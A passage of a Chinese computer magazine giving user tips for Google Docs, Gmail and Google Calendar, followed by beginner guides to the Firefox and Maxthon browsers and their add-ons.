针对电子表格的应用特点，“Google 文件”还提供了丰富的其他功能。下面以添加公式和创建数字序列为例。

小技巧一：添加公式。首先，双击电子表格中的某个空单元格，然后点击“公式”选项卡，屏幕右侧将显示一系列选项，即可根据不同的公式进行计算了。

小技巧二：在电子表格列中创建数字序列。操作方法如下：首先，向某个单元格中键入数字序列的第一个数字。例如，我们向单元格 A1 中输入了某个数字。然后，根据

## 二、Gmail实用技巧篇

1. “越俎代庖”：使用Gmail邮箱收取其他邮箱的邮件

通过设置，可以方便地使用 Gmail 邮箱来收取非 Gmail 邮箱的邮件。要实现这个功能，首先单击右上角的“设置”按钮，然后选择“账户”选项卡，就会看到“从其他账户获得邮件”，然后点击“添加其他邮件账户”，即可开始添加非 Gmail 邮件账户。如图10所示。


设置这些非 Gmail 账号后，还可以在“账户”选项卡下选中“用此相同地址回复”，然后设置不同的发信地址，这样，别人收到你的邮件时，看起来就像是从指定的邮箱发过来的。

小技巧：指定收取邮件的非 Gmail 邮箱必须支持 POP3 功能，而且已经开启此功能。

2. 分身有术：Gmail 邮箱加号和点号的妙用

和 Google 搜索一样，Gmail 的过滤规则使用也很方便。搜索时，关键字以单词为基本单位，以符号（如“.”，“@”，“+”）作为分隔符分词，将此特性和标签结合起来可以非常方便地进行邮件管理。Gmail 会忽略用户名中“+”以及后面的部分，实际上这些信还会寄到这里。通过这个办法可以生出许多新的邮箱，例如，对于账号 cfantest@gmail.com 来说，可使用以下地址：cfantest+sina@gmail.com、cfantest+sohu@gmail.com、cfantest+qq@gmail.com 进行论坛消息发布，可以设置公布给同学的邮件地址为：cfantest+class@gmail.com。

在 Gmail 的邮箱地址中，结合邮箱标签、过滤器功能，针对变形 Gmail 邮箱地址再设置一个过滤器，这样就可以在 Gmail 中直接为某类需要存储的文件单独开辟一个存储空间。为了便于分类，可以在“设置”下的“标签”选项卡中分别为这几种人添加标签。然后，在“设置”下的“过滤器”中添加过滤器，条件为收件人是 cfantest+class@gmail.com，按“下一步”，为它选择上一步建立的标签“同学”，完成设置。同样方法设置另外联系人之后，就可以点击左侧的标签来查看相关信件，使用起来十分方便。如图 11 所示。



3. 火眼金睛：自动清理垃圾邮件

Google 的垃圾邮件识别功能相当强大，无需任何设置就能自动过滤大部分垃圾邮件。用户有两种选择：一种是让 Gmail 接管信箱，一种是让 Gmail 中转的时候帮助清理垃圾。

（1）接管信箱

现在大多数邮件都支持邮件转发，进入 Gmail 的“设置”界面，单击“转发和 POP”选项卡，然后会要求输入转发的邮件地址，在这里输入 Gmail 信箱地址，并选择“删除 Gmail 副本”，这样可以让 Gmail 完全接管这些信件。如图 12 所示。



小技巧：为了保证重要信件不被当作垃圾，可以设置一个过滤器，然后添加一个标签就行了。

（2）让 Gmail 中转的时候帮助清理垃圾

如果希望使用原来的信箱收发邮件，而只是用 Gmail 来清理垃圾，可以按照第一种方法将信件转发到 Gmail 之后，再在 Gmail 将所有邮件转发回原来的邮箱即可。

4. 井井有条：利用 Google 日历进行日程管理

网站地址：http://www.google.com/calendar?hl=zh_CN
使用 Google 日历进行事项管理十分简单又方便，用户可以轻松添加活动和邀请，与亲朋好友共享。使用 Google 日历之前，需要用 Gmail 账号进行登录。
典型功能和技巧如下。

+   （1）日历共享
    如为学校篮球队设置日历，然后将其与所有球队成员共享。或者与你的亲朋好友共享，以便相互查看他人的日程。同时，可以对共享的内容和对象加以适当控制。例如，用户可以让同学看到篮球比赛的详情，但隐藏自己关于篮球比赛的日记；也可通过在微型日历上突出显示所关注的日期，指定在主日历中显示某些重要信息。
+   （2）邀请和搜索
    创建活动邀请、将其发送给朋友、跟踪受访人的回应和意见，都可在一个地方完成。另外，还可以查询感兴趣的最新活动，将其添加到自己的日历中。
+   （3）与其他程序的结合
    可以从其他常用日历应用程序如 Microsoft Outlook 和 Yahoo! Calendar 中快速方便地导入信息，同时 Google 日历还提供了丰富的文档接口。

5. 得心应手：方便独特的邮箱快捷键

Gmail 邮箱支持使用快捷键，通过几个简单的按钮组合，可以明显提高 Gmail 的使用效率，使用起来也更加方便。如下表所示。

表 1 Gmail 邮箱快捷键
| 按键 | 定义 | 作用 |
| :--- | :--- | :--- |
| ! | Report spam | 将消息标记为垃圾邮件并从会话中删除 |
| a | Reply all | 回复所有收件人。“Shift+a”可打开新窗口中回复。 |
| c | Compose | 撰写新邮件。“Shift+C”打开新窗口撰写新邮件 |
| f | Forward | 转发消息。“Shift+f”可打开新窗口转发。（只在“查看消息模式”中有效） |
| k | Move to newer conversation | 在收件箱中，向上移动光标，按<Enter>查看邮件；在查看邮件时，打开下一封新邮件。 |
| j | Move to older conversation | 在收件箱中，向下移动光标，按<Enter>查看邮件；在查看邮件时，打开下一封旧邮件。 |
| p | Previous message | 移动光标到前一个消息。按<Enter>展开或折叠消息。（只在会话模式中有效） |
| u | Return to conversation list | 刷新页面、返回收件箱或返回会话列表。 |
| x | Select conversation | 选中会话，配合其他快捷键可为会话存档、添加标签或从下拉菜单中选择其他命令。 |
| s | Star a message or conversation | 为会话或消息加星标。 |
| r | Reply | 回复邮件或会话。“shift+r”可在新窗口中回复消息（只在“会话模式”中有效）。 |
| <tab> then <Enter> | Send message | 新邮件撰写完后，先<tab>后<Enter>可发送邮件。（在Windows中，使用IE和Firefox有效） |
| o or <Enter> | Open | 打开会话。在会话模式中，也可用于打开消息。 |
| y then o | Archive and next | 存档选中的会话并打开下一个。 |
| g then a | Go to 'All Mail' | 转到“所有邮件”。 |
| g then s | Go to 'Starred' | 转到“已加星标”。 |
| g then c | Go to 'Contacts' | 转到“通讯录”。 |
| g then d | Go to 'Drafts' | 转到“草稿”。 |
| g then i | Go to 'Inbox' | 转到“收件箱”。 |
| / | Search | 将光标定位到搜索栏中的输入框中。 |

6. 同步浏览：好帮手 Google Browser Sync

软件下载地址：http://www.google.com/tools/firefox/browsersync/
对于 Firefox 浏览器用户来说，经常需要进行各种个性化的设置，但如何将这些设置资料保存下来，却是一个比较头疼的事情。现在只要使用 Google 为其推出的免费同步扩展—— Google Browser Sync，就可以随身携带自己的浏览器设置。该扩展工具能同步的数据包括： Cookies、密码、书签、历史记录以及标签和窗口。这样，以后打开 Firefox 浏览器时，插件可以从 Google 服务器自动下载数据，同时会提示是否恢复上次关闭的最后一个页面。通过这种设置，可以实现不同电脑的 Firefox 同步，使用起来十分方便。

小技巧：为安全起见，在安装过程中可以自己设置一个 PIN 码，在修改设置时会要求输入。安装成功后就可以在浏览器右上角看到多了一个链接。

通过上述 Gmail 实用工具和实用技巧的灵活运用，用户一定会有更多的惊喜。因为，我们不仅可以轻松拥有一个强大而灵活的邮箱，而且也拥有了更多的超值服务。现在，许多网络服务提供商开始以电子邮件服务为中心，打造通讯集成平台。也就是说，未来电子邮件服务要想继续生存，必须走整合之路，实现与 IM、日历、搜索等功能的集成。Gmail 就是其中的一个优秀代表。通过上述体验，我们也能体会到这种网络服务一体化的整合趋势。对于 Gmail 邮箱及其相关服务的发展，我们拭目以待。

## 将IE浏览器彻底抛弃
### ——网络火狐力挺浏览器三大理由

文 / TMG zxl

长久以来，Windows 视窗一直是最为广泛使用的操作系统，对于微软的好东西，众电脑迷们一定也是鼎力支持的。唯独IE浏览器常年都会受到大多数用户的非议，其主要诟病有两点：一是安全性，并非IE的安全工作做不到家，而是黑客们多以其为攻击对象，IE应接不暇；二是系统资源占用大，一般IE开启后都会占用不只一个系统进程，此外IE 7.0以前的版本不支持标签式浏览，所以使用时大家恐于同时打开多个网页。恶意插件的意外捆绑，三天两头篡改主页，浏览过程中网页的随机弹出，相信使用过IE浏览器的用户都曾经遭遇过，众多不便也使许多用户放弃了IE。

据2006年的统计数据，IE的垄断地位开始进一步被削弱，市场份额已经下滑至90%以下。当然，微软为了应对现状推出了IE7.0浏览器，改进了许多功能，除了期待，笔者在此也为大家精选了两款第三方浏览器，不失为解决浏览硬伤的蹊径。

## 第一篇 Firefox 火狐使用教程

大名鼎鼎的 Firefox，相信笔者不提大家也一定听说过，很多计算机应用的高手都在使用这款浏览器。除去改进了IE浏览器的许多不便之处，增强了安全性，火狐最大的特性是它的源代码完全开放，电脑爱好者可以自己编写需要的插件。开发者将它视为最好的朋友，因为它拥有包括JavaScript/CSS 控制台、文件查看器等在内的一系列内置工具，你可以随时随地了解掌握网页运作的详情。下面笔者将分五部分为大家展现火狐，提供一份详尽的上手指南：

### 一、灵魂初探

选择一款软件最为看重的当然是它的功能，那么一款软件的功能理所当然源自它的开发理念。Firefox（火狐）是一款全球共享，同时也是全球电脑爱好者共同完善的浏览器，因此它集合了当今浏览器最先进的应用理念。其原始版本是由开源基金组织 Mozilla 研发的，如前所述，就像著名的 Linux，火狐一诞生就带有“开放源代码”的特点，这决定了它在软件开发界拥有众多的支持者。因此火狐的使用者大多是造诣颇深的程序人员，在使用过程中，一旦发现问题，就会相互交流一起解决。这就极大加快了火狐的版本更新速度，也为火狐注入了独一无二的灵魂。

- 快捷、安全的狐狸

由于火狐采用全新的内核编写，其网页浏览模式和IE完全不同，所以在网页读取的速度上有大幅度的提高。笔者在实际使用中作了尝试，火狐的网站读取速度大多数要比IE快。此外用户可以在安装后加装火狐的加速插件（后文将会详细介绍），进一步提高浏览速度。另一方面，火狐区分了IE原本的内核结构，对外宣传在安全性能上更为可靠。这一点笔者并没有机会证实，但是由于目前网络上大多数的木马和攻击程序针对IE内核编写，所以火狐自然就相对安全。再加上其强大的广告、插件的拦截与监测功能，相信一定会带给大家一个相对绿色的使用环境。

- 个性十足的狐狸

火狐采用了当下最为流行的分页标签式浏览方式，方便用户在同一窗口下浏览多个网页。其内置的 Google 搜索工具能够帮助你迅速得到需要的信息。值得一提的是，火狐官方网站上给出 Windows、Linux 以及 Mac 三种不同操作系统下的版本建议与硬件要求，足见其兼容性要远胜于IE。如果你在搜索引擎中键入“火狐插件”，便会在互联网上找到各种各样的扩展功能插件，它们可以帮助你打造属于自己的个性火狐。此外，火狐还拥有主体界面更换功能，这一切都将在后文详述。

- 自由免费的狐狸

这一点笔者我就不再赘述了，火狐的一切都是免费的，它的下载是共享版本，源代码完全对外开放，插件、主题均可免费下载，用户可谓随心所欲、无所顾忌地畅游网络。

### 二、引狐入室

说了这么多，大家一定都迫不及待地要结识我们的小狐狸。由于近来火狐的人气剧增，所以火狐的下载极为便利，很多网页上都附有火狐的下载链接，通过这些链接你可以轻松地下载火狐。在此为大家提供一个下载链接：http://www.newhua.com/soft/3600.htm（华军软件园）。

下载后大家便会发现 Firefox 仍旧是一位瘦身MM，其体积仅有5.5MB左右。火狐的安装界面给人以清新明快的印象，而且非常简便，只需几步就可以完成安装工作。需要注意的一点是，在安装过程中可以选择“自定义”组件，如果你是怕麻烦的人，可以将火狐的质量反馈功能去除掉，方便今后更为流畅地浏览网页。按程序操作完成后，你就拥有了这只在网络界大名鼎鼎的火狐。

### 二、火狐初生

初识火狐，你一定会被他简洁明快而又不失稳重的风格所打动（见图1）。在这一部分，笔者将向诸位介绍火狐的一系列特色功能，相信你很快就能领略它的魅力。



- 新手上路

初次运行火狐，程序会提醒你在现有的浏览器下导入相关的历史记录、密码、收藏夹等信息。IE用户自然选择微软Internet Explorer进行导入，这样可以省去我们不少的麻烦。当然，如果你错过了开始的设置，仍然可以单击顶部菜单栏的“文件”，选择“导入”命令进行导入。导入之后，火狐每次启动就会登录原浏览器的默认主页，如用户需要修改，可以单击顶部菜单栏的“工具”菜单，选择“选项”，在弹出的窗口中我们可以对火狐进行一系列初始设置(见图2)。一些简单的功能，如在“主要”选项卡下可设置主页、下载文件保存位置、默认浏览器；“标签式浏览”选项卡可以设置关于多网页标签式浏览的相关选项；“内容”选项卡；可以设置“JavaScript”的“启用”“关闭”等等。在初始设置下，火狐的特色功能是“安全”标签下用户可以设置一个浏览器的主密码，这样在今后的使用中有涉及安全的选项修改、密码保存、登录等操作时，火狐会自动提示使用者键入主密码，在此火狐的本地安全性已初见端倪。其他诸项设置与IE有不少共同之处，用户可以在使用中自己进一步细化。


- 工具按钮DIY

新进的用户可能会抱怨窗口顶部的工具按钮不齐全，原因在于火狐是自由的狐狸，我们可用通过它的“工具栏定制功能”打造属于自己的工具按钮。在菜单栏右侧的空白处右击鼠标，单击“定制”命令，启动火狐的工具按钮定制（见图3）。



根据笔者的使用经验，用户可以将“复制”、“粘贴”、“新建标签页”、“历史”等几个按钮拖入工具按钮区域，当然实际DIY过程中全凭用户个人喜好，在添加工具按钮的同时，也会牺牲一部分地址栏的尺寸，用户可自己把握。

- 历史页面恢复

火狐除去在地址栏的下拉列表中显示最近键入的网址列表外，对“历史”浏览功能也进行了强化。单击菜单栏的“历史”菜单，立刻可以看到菜单中出现最近十项网页浏览记录，如果你还不满足，可以选择菜单最顶部的“显示于侧栏”命令，此时就会发现火狐将你的浏览记录分时段陈列一侧，越久远的历史记录时段分期就会越长，用户还可以通过“查找”功能进行定位。有此利器，今后再也不用为不慎关闭发愁了（见图4）。



- 搜索引擎全开动

火狐在整个窗口的右上角提供了一个搜索框，用户在上网时可以直接键入信息，Enter后通过默认的引擎进行搜索，较之过去方便许多。火狐为我们内置了Yahoo、Google、eBay、Amazon.com、Answers.com、Creative Commons等多家

- 源代码随意查看

IE当中也有类似功能，在火狐窗口下用户可以单击菜单栏“查看”菜单，选择页面源代码命令，查看当前页面的编写代码。火狐对于这一功能进行了强化，在浏览页面时，用户可以选中任意一部分区域，右击鼠标，单击“查看选中部分源代码”命令，查看某一部分的编写代码，这对于编程人员和网站建设的初学者，无疑是大有裨益的。

- 火狐主题更换

相信每个使用者都希望自己的浏览器个性化，火狐的“主题更换”功能可以充分满足大家的要求。单击菜单栏“工具”菜单，选择“附加软件”命令，单击“主题”标签，即可进入火狐的“主题管理器”（见图5）。你可以单击右下角的“获取主题”，登录火狐官方网站下载喜欢的主题，也可以自行下载主题后将“jar”后缀的文件拖拽进主体窗口中进行安装，安装结束后再次启动“主题管理器”使用主题，你的火狐就焕然一新了，此外，用户可以下载相关软件自己设计制作火狐主题，篇幅所限，本文暂且不作介绍。



- 反钓鱼功能

伪造网站是当今互联网的重要骗术之一，广大用户经常会不慎登录仿制的XX银行网站页面，若你不小心键入了自己的重要信息，可能造成不必要的损失。依然是在“工具”菜单的“安全”选项卡下，勾选复选框“若访问的站点为伪造请告知我”，继而点选下方的“使用已下载的可疑站点列表检查”或者“询问以检查XX每一个访问的站点”，设置完成后单击“确定”按钮(见图6)。这样用户在浏览网页时，火狐将自动根据本地已有的钓鱼网站黑名单或者设置的搜索网站提供的伪造网站地址进行核实，提示用户规避钓鱼网站，有效保障用户的安全。


- 轻松订阅 RSS 资讯

很多用户上网时，都是下载第三方软件定制RSS，包括阅读博客、每天的电子版报刊等。火狐周到地内置了RSS阅读器，无需加载软件，即可阅读RSS资讯。在“工具”菜单的“选项”命令下，我们来到“收取点”选项卡，点选“实时书签”作为订阅收取点时的使用项（见图7）。登录你想订阅的RSS网站，此时地址栏一侧的RSS按钮会亮起，单击“订阅XXX”命令，选择“创建到书签工具文件夹”，单击“确定”完成。此后，你只需要单击顶部书签工具栏就可以获得已订阅的RSS信息列表了。



除了以上功能外，火狐还具备许多人性化的功能，例如：填表智能保存、网页比例放大缩小、阻止弹出窗口、错误控制台等。这些功能有的较为简单，有的需要插件进行强化，笔者将在下一部分为大家介绍。

在此特提供一份火狐快捷键的列表链接，供大家参考：http://www.firefoxclub.cn/jiaocheng/18.html

### 四、九尾火狐

相信很多读者像笔者我一样，是火狐的忠实粉丝，在这一部分，我将为可爱的火狐装点九条尾巴，让它尽善尽美，所向无敌。前文已向大家提到火狐强悍的插件扩展功能。那么何为插件呢？浏览器的插件就是由程序人员编写的，嵌入到浏览器当中，增强其功能的附属软件。通过第三部分的介绍，大家对火狐已经有了初步的了解，如何拥有一款更为完美的火狐呢？笔者将为你介绍最值得拥有的九个火狐插件。介绍之前首先教给大家查看火狐插件的方法：单击菜单栏的“工具”菜单，选择附加软件命令，可以打开火狐的附加软件管理器，在这里可以启用、卸载以及设置所有插件。

- Fasterfox加速插件

推荐度：
下载链接 https://addons.mozilla.org/en-US/firefox/addon/1269

相对于网络带宽、网卡等硬件因素，很多用户都期望自己的浏览器能从软件方面提升浏览速度，Fasterfox 插件可以通过调整火狐内存的占用，对火狐的启动和运行速度进行优化，此插件还有提升浏览速度的功能。在火狐浏览器中进入上述下载链接，单击“Install Now”安装，结束后重新启动火狐即可实现加速。单击“工具”菜单，选择“附加软件”命令进入插件管理器，在插件Fasterfox的选项区域下单击“选项”按钮，在出现的对话框中我们可以对Fasterfox的加速力度进行设置，其中“主要设置”选项卡是与优化的程度相关的，而“Fasterfox”选项卡下可以启用“增强页面预读取”和“页面加载计时器”两项功能（见图8）。使用后笔者发现浏览器启动、读取速度明显提升，且加载页面时右下方会出现加载所用的累计时间。



- Tab Mix Plus 标签设置插件

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/1122
接下来我们要解决标签浏览的问题。也许大家会问，火狐已经提供了标签浏览的功能呀。其实火狐的标签浏览并非真正的标签式分页浏览，细心的用户会发现在“选项”窗口下设置以后，打开新链接时火狐会自动建立新窗口，而不是建立新的标签页。要解决这个问题，就要靠Tab Mix Plus。依然在火狐浏览器下进入下载链接，单击“Install Now”，安装完成后重启火狐进入附加软件管理界面，单击“Tab Mix Plus 选项”区域下的“链接”按钮（见图9）。单击勾选“启用单窗口模式”复选框，在其后面的下拉列表中选择“任何链接”，完成后即可开始火狐的标签浏览



- IE Tab 让火狐插上双核

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/1419
笔者认为IE Tab也是每位火狐用户必备的插件之一，现今IE的浏览器霸主地位不可撼动，很多程序员在建站的时候都是以IE为内核编写的，不过有些代码使用不够规范。所以很多情况下存在某些网页仅支持IE浏览器打开的情况，如果两个浏览器来回切换，无疑给用户造成不必要的麻烦。交给IE Tab来解决，依然重复上述两款插件的安装步骤，之后来到“选项”对话框。值得一提的是在“网址过滤”选项卡下（见图10），用户可以把需要IE内核打开的网页URL添加到IE Tab当中，以后火狐就会自动用IE内核打开它们了。另外有个小诀窍：如果你的鼠标具备中间的滑轮键，在浏览时仅需在右下角的图标上按下鼠标中键，即可实现对当前页面的内核切换。



- Adblock Plus 网络门神

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/1865
日复一日，层出不穷的网页FLASH、游动图片给广大网虫带来了极大的困扰，Adblock Plus犹如火狐的网络门神，可以帮助大家拦截99%以上的网络弹出垃圾。安装结束后可以看到插件的标题为“广告已成往事”。在“选项”对话框内，用户可以根据自己的实际需要添加需要过滤的网站，做到有的放矢，不放过一个坏人，同时也错杀一个好人。

- All-in-One Gestures 建造我的手语

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/12
笔者将这个插件的推荐度设为3，原因仅因大多数网民对这个功能不甚了解，乍用起来也不习惯，但这是笔者最为欣赏的插件之一。简单地说，就是在当前标签页下按住鼠标右键，拖动并划出轨迹，便可以实现“关闭标签页”、“前进”、“后退”等功能，其妙用自然不言而喻。笔者在此简要介绍一下DIY鼠标手势的步骤：首先可以在插件对应的选项对话框内“常规选项”下设置鼠标手势的启动，并勾选设置手势轨迹线。随后在“自定义手势”选项卡下选择一个命令，例如“关闭当前标签页”，单击“编辑手势”按钮，随后单击左下方的“绘制”按钮，按住鼠标右键在出现的空白区域内划出自己希望的轨迹，最后单击“确定”按钮即可，至此一个鼠标手势设置完成。此外在“高级选项”选项卡下可以更改手势的禁用等快捷键，用户可以根据需要自行修改（见图11）。



图 11

- ForecastFox 天气早知道

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/1978
全球知名的天气预报插件，没什么好说的，安装使用就好了，安装后在火狐主窗口的右下角会出现当前日期以及48小时内的天气预报。它的信息提供源自美国，有可能预报没有国内气象台的精准，但毕竟是国际品牌，不会太过离谱。需要提醒的是，用户在初次使用时要在插件对应的选项对话框中核对并设置地理位置，还可以更改不同的天气图标。

- Minimize To Tray 最小化到托盘

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/220
这个小插件可以在你不需要火狐的时候将它最小化到系统栏图标，这样火狐就不会在任务栏占用位置了。在插件对应的选项对话框中可以设置为“关闭时总是最小化”，这样火狐就可以随时隐居到屏幕右下角啦！

- FlashGet 第三方下载软件

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/1978
大家一定都知道著名的下载软件网际快车（FlashGet），IE的右键菜单中有“使用网际快车下载全部链接”、“使用网际快车下载”命令，用户可以随时用它下载资源。火狐没有这个功能，FlashGet就是一个为火狐嵌入FlashGet作为第三方下载工具的插件，安装过后用户只需单击下载链接，FlashGet的下载界面便会自动弹出。

- All-in-One Sidebar 火狐管家

推荐度：
下载链接：https://addons.mozilla.org/en-US/firefox/addon/1027
以上介绍了诸多功能与插件，最后向大家推荐的是集大成的一个插件，可以管理掌握整个火狐的运行和状态。安装完成后在火狐的左侧会出现一个含有七个选项卡的控制台，如图12。笔者在此简要说明控制台的强大功能，自上而下分别是：



图 12

- 1. “自动显示/隐藏侧栏”，单击这个按钮启用或取消，控制台将会在你不使用它的时候自动隐藏到界面左侧，不占用浏览空间。
- 2. “显示你的书签”，单击这个按钮控制台会为你列出本地所存储的全部标签，并向用户提供搜索功能，你可以轻松找到需要的标签和RSS订阅。
- 3. “历史”，顾名思义，单击这个按钮可以实现与菜单栏中的历史菜单相同的查看功能。
- 4. “下载”，单击下载按钮可以查看所有下载项，包括完成进度、保存位置、移除等操作。
- 5. “扩展与主题”，笔者认为这是控制台最人性化的功能，在这里你可以随意查看所有插件和主题、选项，可随时启用、卸载它们，并可以查找更新，基本等同于“工具”菜单中的附加软件命令。
- 6. “多用面板”，主要用于查看页面的源代码。
- 7. “页面信息”，显示当前页面的相关信息（表单、链接、多媒体）。

至此笔者尽职尽责把 Firefox 打造成了一只九尾火狐，相信通过这一番修改火狐可谓脱胎换骨了。限于篇幅，还有很多小巧可爱的插件没向诸位介绍，留待大家在使用中自己去发掘了。本文所给出的插件推荐星级均属作者个人的意见，仅供大家参考。

## 第二篇 傲游Maxthon上手指南

刚才为大家介绍了火狐浏览器，我的心情久久不能平静。回想起使用IE过程中的诸多伤痛，至今历历在目。但笔者我开头就说过，微软始终为我们缔造了软体帝国，因此对于微软的好东东，我们是有感情的，也是不易割舍的。想来现今有很多网站都是基于IE内核编写的，因此IE的垄断地位至今为止变化不大。那么我们能不能找到一款软件既继承了IE的血统，又在其基础上延续发展呢？答案是肯定的，这就是笔者向诸位介绍的第二款浏览器“傲游 Maxthon”。

傲游原来的英文名字叫做“MY IE2”，从这个名字上我们不难发现傲游是基于IE编写的。不错，傲游是一款基于IE内核扩展的多功能浏览器，在测试阶段它就受到许多使用者的青睐。正式版发布时傲游更名为“Maxthon”，且如同火狐一样是完全免费的共享软件，此外傲游拥有自己的技术支持、网络合作体系，并且有很多国内用户的资金支持。因此，从问世以来，傲游的版本不断更新，现在已发展到2.0版本，其功能也日趋完善。由于傲游拥有IE内核的强大优势，因此可以兼容IE浏览的所有网页，同时它又改善了许多IE浏览器的硬伤，使得它的实用价值倍增。本文旨在为读者提供这款浏览器的上手指南与一些使用技巧，希望为厌倦IE浏览器的诸位奉献一丝曙光。

下面将傲游浏览器广泛应用的功能做出归纳：

- 多标签浏览——颠覆传统的完美多标签浏览方式，节省内存，高速便捷
- 快捷搜索——只需在界面下键入信息，立刻查询，超级拖拽相辅相成
- 鼠标手势——老掉牙的快捷键被彻底抛弃
- 广告猎手——无论是浮动式的还是播放式的均不放过
- 撤销列表——通过撤销列表找回遗失的标签
- 傲游智能加速——为浏览加把油
- Feed 阅读器——订阅，无须再下载第三方阅读器
- 插件——管理与使用的完美结合
- 外部工具——给外部应用软件搬个家
- 皮肤——我的傲游我装扮
- 多语言支持——版本国际化
- 清除隐私数据——想删就删
- 傲游安全更新——自动更新
- 收藏栏——传承经典
- 网址自动完成——通过快捷键帮你输入网址中的“http://www.”和“.com”
- 收集面板——保存文字和图片
- 老板键——一键隐藏傲游

### 一、傲游的下载安装

傲游的官方下载链接：http://maxthon.cachefly.net/mx_2.0.1.9008cn.exe
下载到本地后，发现傲游的大小仅有不到2MB，相对于IE的庞大体系，傲游的精简是惊人的。安装程序非常高效，只需三步即可完成安装，途中可以设置是否安装到Windows用户账户，大家可以清楚地看到，即使安装傲游，也仅需不到5MB的空间。

### 二、傲游特色功能上手指南

傲游既然是基于IE内核编写的浏览器，那自然它与IE有很多相似之处。打开傲游，可以看到一个淡雅风格的使用界面，与IE有些许相似，却又是完全不同的另一种风格（见图13），值得一提的是，傲游的菜单采用XP系列的滑动效果，让人感觉十分亲切、前卫。在此笔者精选了傲游不同于IE的一系列特色功能，希望为诸位上手提供一份实用的指南。



#### 1. 彻底个性的常规设置

首先来到傲游的常规选项设置，单击傲游窗口顶部的“工具”菜单，选择“傲游设置中心”命令，单击进入“常规选项”选项卡，我们就会发现傲游的常规设置是浏览器当中最齐全的（见图14）。用户可以在这里设置网页的浏览相关选项，例如是否播放FLASH等，傲游还可以帮你抹除一切你讨厌的网络信息。



#### 2. 强大的多标签浏览

傲游浏览器放弃IE传统的多窗口浏览方式，而是采用完全的多标签浏览模式。首先图14所示窗口中打开“傲游设置中心”，在“标签栏”选项卡下完成对标签浏览模式的相关设置。在多标签浏览时，我们可以发现傲游对标签的设计相当用心。
比如：当前的标签会变色凸起，当前标签的右端是关闭按钮（你也可以通过双击标签进行关闭），标签栏右侧的“+”可以供我们随时随地添加新的标签页；单击标签栏左端的“标签管理器”按钮可以用类似于PPT多页预览的方式查看当前所有标签页；此外，你可以用鼠标随意拖动标签改变它们的顺序，根据设置，当你单击某一链接或选择收藏某一网页时，傲游会自动在当前标签的右侧建立新的标签页，含“保护标签”、“锁定标签”等功能，保障你的浏览信息。

#### 3. 傲游皮肤随意换

登录傲游皮肤下载官方站点http://skins.maxthon.com/，这里为你提供了超过300款各式各样的傲游皮肤。选择你喜欢的皮肤，单击“Install”，傲游即可为你自动安装所选皮肤。之后来到“傲游设置中心”，在“皮肤管理器”选项卡下，你可以自由切换本地已有的各种皮肤。

#### 4. 无所不能的超级拖拽

超级拖拽是傲游具备的一项具有革命意义的功能，当你开启这项功能后，在使用过程中，它可以出现在方方面面，比如，选中一个链接按住鼠标左键拖拽到空白处会自动在新标签页中打开该链接，选中网页一段文字进行拖拽会自动在当前默认搜索引擎下搜索，按住Ctrl键对文字或图片进行拖拽，它们会自动保存到你设置的目录当中。

#### 5. 完善的搜索功能

利用傲游右上角的搜索引擎，用户可以轻松找到自己想要的任何资源。内置百度、雅虎、迅雷等明星级的搜索引擎，用户可以使用右侧的下拉列表更换自己需要的搜索引擎。傲游拥有自己独特的创新功能。其一，傲游支持地址栏中文自动搜索，在地址栏键入中文回车，傲游会自动在当前默认搜索引擎下进行搜索，将结果反馈给用户，如果在中文名前加上搜索引擎的名字，傲游便会自动按此引擎展开搜索；其二，就是刚才提及的超级拖拽功能，配合鼠标操作，可以对页面上任意信息进行快捷搜索。

#### 6. 装备精良的广告猎手

针对目前肆意的网络广告，傲游提供了强硬的解决方案。首先在傲游设置中心的“广告猎手”选项卡下，将过滤设置细化为“弹出窗口过滤”、“内容过滤”、“文本过滤”三个方面。用户不仅可以根据所浏览网页的内容开放不同的过滤功能，还可以自主编辑过滤列表，创建、管理过滤包。另外在傲游窗口的右下侧，特别设置了广告过滤的快捷菜单，方便用户实时修改过滤选项。傲游的广告猎手可以算作装备精良，功能强大。

#### 7. 传承经典的收藏夹

IE 的收藏夹是值得我们称道的，傲游继承并发展了这一优秀功能，用户可以单击“收藏”菜单对收藏夹进行管理。傲游更为人性化的一面是在标签栏的最左端设置了一个星形按钮，单击按钮收藏列表就会出现在浏览器界面的侧栏。在侧栏中你可以完成删除、建立文件夹，同时可以结合超级拖拽功能，改变收藏页面在排列上的顺序。

#### 8. 高强度的隐私保护

经常上网的人都不希望别人查看自己的Cookies记录、历史记录、地址栏下拉列表等私人信息，傲游同时支持“撤销关闭”页面的功能。为了防止他人获取用户的私人信息，傲游在标签栏下方添加了一排功能按钮，其中单击“清除浏览器历史记录”按钮即可有选择性地清除上述内容，你同样也可以在“傲游设置中心”的“安全和隐私”选项卡下进行清除。工具条的另外几个按钮可以用来保存图片以及查看傲游的推荐网址。

#### 9. 智能填表

你是否为了登录邮箱或者博客日复一日地填写登录信息而感到疲劳呢，傲游为你贴心设计了智能填表功能，在“傲游设置中心”的“智能填表选项卡”下，用户可以自由创建表单用于注册和登录，亦可以管理当前已有的表单保存项目。

#### 10. 鼠标手势

放弃老土的功能按钮和快捷键吧！傲游为大家带来内置的“鼠标手势”，当功能激活的时候，你可以通过鼠标的滑动和左右键的搭配来完成打开、后退、前进等命令。鼠标手势的设置在“傲游设置中心”的“鼠标控制”选项卡下，用户可以根据个人喜好进行修改，DIY 自己的手势。

#### 11. 外部工具栏

傲游是完全绿色而且过滤掉插件和外部工具的浏览器，但是你上网时经常需要一些外部软件的辅助以完成更复杂的工作。 Maxthon 独特的外部工具栏可以把外部软件迁入傲游界面当中，添加外部工具的步骤如下：
在菜单栏空白处右击鼠标勾选“插件栏”项；单击窗口右上角的“增强功能”按钮，选择“添加外部工具”命令；按照提示添加工具的名称、应用文件、启动选项。

### 三、让傲游如鱼得水——傲游插件简要介绍

插件是基于应用程序的接口编写出来的小程序，用以增强软件的功能。傲游的插件虽然没有火狐那样品类繁多，但是安装适当的插件可以使得傲游更加如鱼得水。

#### 1. 傲游插件的安装

你需要把插件安装在傲游Plugin目录的子目录下，下载的插件含有.ini结尾文件和COM组件或脚本文件。一般来说我们下载的傲游插件都是压缩包形式，只需简单地解压缩到Plugin目录，重新进入傲游浏览器即可，进入后会提示发现新插件，注意不要放弃它们，选择这些插件，单击“确定”，插件的功能就实现了。

